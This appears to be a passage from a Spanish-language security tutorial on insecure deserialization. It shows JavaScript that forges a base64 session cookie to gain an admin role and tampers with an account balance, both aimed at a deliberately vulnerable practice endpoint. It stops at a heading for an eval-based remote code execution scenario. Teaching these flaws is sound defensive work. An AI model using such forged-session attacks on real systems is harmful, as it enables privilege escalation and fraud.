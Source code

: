 **Ataque**:

```javascript
// 1. Crear sesión falsa con privilegios de admin
const fakeSession = {
  user: {
    id: 999,
    username: "hacker",
    role: "admin", // 🔴 Elevación de privilegios
  },
};

// 2. Serializarla
const sessionData = Buffer.from(JSON.stringify(fakeSession)).toString("base64");

// 3. Enviarla al servidor
fetch("/api/vulnerable/deserialization/load-session", {
  method: "POST",
  body: JSON.stringify({ sessionData }),
  headers: { "Content-Type": "application/json" },
});

// ✅ Servidor acepta sin verificar → ahora eres admin
```

### Escenario 2: Object Injection con Balance Falsificado

```javascript
// Sesión legítima
const realSession = {
  user: {
    id: 3,
    username: "bob",
    role: "user",
    balance: 100,
  },
};

// Sesión modificada por atacante
const hackedSession = {
  user: {
    id: 3,
    username: "bob",
    role: "user",
    balance: 1000000, // 🔴 Balance falsificado
  },
};

// Servidor vulnerable lo acepta sin verificar integridad
// → Ahora puedes comprar cosas con balance infinito
```

### Escenario 3: Remote Code Execution (RCE) con `eval`
